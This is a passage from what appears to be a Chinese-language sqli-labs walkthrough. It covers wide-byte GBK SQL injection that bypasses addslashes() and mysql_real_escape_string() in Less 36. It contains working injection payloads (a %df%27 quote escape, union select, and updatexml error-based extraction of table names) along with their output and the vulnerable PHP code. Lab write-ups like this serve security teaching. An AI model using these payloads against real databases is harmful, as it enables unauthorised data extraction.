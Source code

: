 ```sql
%df%27===(addslashes)===>%df%5c%27===(数据库GBK)===>運' //逃逸单引号
id=%df%27 union select 1,database(),3%23
# �\' union select 1,database(),3#
# Your Login name:security
id=%df' or updatexml(1,concat(0x7e,(select group_concat(table_name)
from information_schema.TABLES 
where TABLE_SCHEMA=database()),0x7e),1)--+
#XPATH syntax error: '~emails,referers,uagents,users~'
```



## Less 36

Description: GET / Bypass mysql_real_escape_string()

```php
function check_quotes($string) {
    $string= mysql_real_escape_string($string);    
    return $string;
}
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

下列字符受影响：

- \x00
- \n
- \r
- \
- '
- "
- \x1a

如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。

Payload: ?id=`%df'`

```sql
or updatexml(1,concat(0x7e,(select group_concat(table_name) 
from information_schema.TABLES 
where TABLE_SCHEMA=database()),0x7e),1)--+
# XPATH syntax error: '~emails,referers,uagents,users~' 
```



